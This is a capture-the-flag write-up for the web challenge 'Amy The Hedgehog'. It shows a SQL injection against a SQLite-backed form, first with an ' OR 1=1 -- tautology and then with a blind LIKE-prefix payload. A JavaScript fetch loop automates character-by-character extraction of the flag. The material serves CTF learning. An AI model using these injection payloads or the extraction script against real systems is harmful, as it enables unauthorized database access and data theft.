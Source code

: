 # web/Amy The Hedgehog

## Challenge

Hi guys! I just learned sqlite3 build my own websiteeee. Come visit my [my website](http://litctf.live:31770/) pleaseeee i am ami the dhedghog!!! :3 ( ◡‿◡ *)

## Solution

We have to guess Amy's crush (a synonym of "the flag"). Guessing `' OR 1=1 --` returns "(≧U≦❁) You got it!!!", so it is vulnerable.

Classic. We're given a yes/no response to a query.
To avoid brute force, we can figure out the flag character-by-character using `LIKE 'prefix%'` (trying `LITCTF{a%`, ..., `LITCTF{z%` to see `LITCTF{s%` matches, then `LITCTF{sa%`, ..., `LITCTF{sz%`, etc.).

We automate! We can open the Network panel in DevTools (inspector), submit a query with `' OR name LIKE 'sanic%' --`, and "copy as fetch" the request:
```js
await fetch("http://litctf.live:31770/", {
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded",
    },
    "body": "name=%27+OR+name+LIKE+%27LITCTF%7Bsanic%25%27+--",
    "method": "POST",
});
```
(This request has been stripped down to the essentials.)

Then, we just do some templating and map each possible character to a request:
```js
await (async () => {
    const chars = [..."}abcdefghijklmnopqrstuvwxyz"];
    let flag = "LITCTF{";
    while (true) {
        const res = await Promise.all(chars.map(async c=>
            (
                await (
                    await fetch("http://litctf.live:31770/", {
                        "headers": {
                            "Content-Type": "application/x-www-form-urlencoded",
                        },
                        "body": `name=%27+OR+name+LIKE+%27${flag}${c}%25%27+--`,
                        "method": "POST",
                    })
                ).text()
            ).includes("You got it!!!")
        ));
        const next = chars.filter((_,i) => res[i]);
        console.log(next);
        if (next.length != 1) throw new Error("bruh");
        flag += next[0];
        if (next[0] == "}") break;
    }
    return flag;
})();
// LITCTF{sldjf}
```
(This is run in the console on the same page, to avoid CORS issues.)


Note `LIKE` queries are case-insensitive, but it happens that the flag's content is all lowercase, as guessing this flag directly confirms it works.

## Flag

`LITCTF{sldjf}`
